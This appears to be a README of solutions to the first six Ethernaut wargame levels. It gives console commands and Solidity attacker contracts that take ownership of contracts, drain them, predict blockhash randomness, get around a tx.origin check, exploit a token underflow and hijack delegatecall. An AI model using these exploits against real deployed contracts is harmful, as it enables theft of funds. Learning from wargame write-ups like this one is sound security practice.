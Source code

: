  # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```
## 3. Coinflip
Ok this was a little bit more difficult from the previous two since now we need to write code. I won't lie either I looked up some hints online to give me some type of idea how to go about this and it was much simpler once i read them. We need to import the CoinFlip contract given to us into a new solidity file so that it can be called at a later point after we submit our guess to the main ```flip()``` function in it. All we are really doing is taking the given function and copying it entirely but at the end when we check if the side is equal to our guess we just either submit our true or false answer if it is equal to the side and the opposite if not.

Below is my contract I wrote and deployed on Rinkeby that ended up working:
```// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

contract CoinFlipHack {
  CoinFlip target = CoinFlip(Instance ID);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


  function hackFlip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      target.flip(true);
    } else {
      target.flip(false);
    }
  }
}
```
## 4. Telephone
Another easy one the contract is set up so that we can change ourself to the owner of the contract simply by calling the ```changeOwner()``` function through a contract from our address. Use ```await contract.owner()``` to see the initial owner of contract and to check that our address is the owner afterwards.

Code written that calls the Telephone contract to allow us to take ownership:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone target = Telephone(Instance ID);

    function telephoneHack(address _owner) public {
        target.changeOwner(_owner);
    }
}
```
## 5. Token
This is a basic level that shows that without using Openzeppelin's SafeMath that your contract is vulnerable to overflow attacks on unsigned variables.

This one command allows us to steal tokens from the contract:
```
await contract.transfer(Instance ID, 21)
```
## 6. Delegation
We are presented with two contracts in the given code one being the Delegate and the other the Delegation contract. We are given three hints to look into the ```delegatecall()``` function that is the Delegation contract, the fallback function it is used in, and method IDs.

Going off these hints when we deep dive into just what ```delegatecall``` does we find that it allows us to pass the ```msg.data``` along to the Delegate contract. This is where the method ID comes into play, using the command ```web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})``` and set it equal to some arbitrary variable to be used later we can get the method ID of the function ```pwn()``` that can be passed as our data into the fallback function to allow us to execute it to set our address to be the owner. After all this we can simply do ```await contract.sendTransaction({data: 'pwn function method ID'})``` to allow us to become the contract owner.



